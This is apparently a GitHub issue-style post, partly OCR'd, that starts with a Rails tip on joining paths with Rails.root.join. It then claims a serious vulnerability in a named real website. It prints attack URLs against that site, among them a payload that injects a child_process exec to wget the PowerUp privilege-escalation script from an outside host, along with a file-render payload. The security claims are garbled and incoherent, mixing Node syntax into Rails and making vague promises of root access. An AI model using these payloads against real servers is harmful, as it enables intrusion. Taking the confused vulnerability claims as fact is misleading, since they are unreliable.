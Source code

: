  Description:

It is used to add uniformity when joining paths.
Bad practice

Rails.root.join('app', 'models', 'goober')
File.join(Rails.root, 'app/models/goober')
"#{Rails.root}/app/models/goober"

Recommended

Rails.root.join('app/models/goober')




You can access rails app path using variable RAILS_ROOT.

For example:

https://trestle.io/?POST=render :file => "#{RAILS_ROOT}/public/layouts/mylayout.html.erb"


It gives you a little text on the webserver. But that means that you can excecute os commands aswell. You can get over all users and databses trough sql injection. Get reverse shells trough Eval() Exec() or OS_command() and so on. You will be running as root over the server after you've
gotten all SSL and CERT to do so. You can also do XXS injections and CRFS injections. 

Like this https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html

And this example gives you priv escalation: https://trestle.io/error_docs/server.svg?POST=require(%E2%80%98child_process%E2%80%99).exec(require(%27child_process%27).exec(%27wget%20https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

It's very bad, for you and that webserver, a hacker could then get further into the system and take over other servers. Fix it as quickly as possible!! I can give more examples, but you get the point. Better not to let others know about this (execpt your customers who also are compromised)
This is a little new found exploit yet out in the wild as we say. You should also contact others that users Rails.root and help them. 

Some refs:
find it here https://github.com/philipjonsen/trestle-auth/blob/main/spec/rails_helper.rb#L23-L23 and here https://github.com/philipjonsen/trestle-auth/blob/main/spec/dummy/config/environments/development.rb#L17-L17


Read about fixes and the problems: https://guides.rubyonrails.org/active_record_querying.html
https://rails-sqli.org/
https://stackoverflow.com/questions/3724487/rails-root-directory-path
https://brakemanscanner.org/


If you mix all the attacks, the servers is done. 







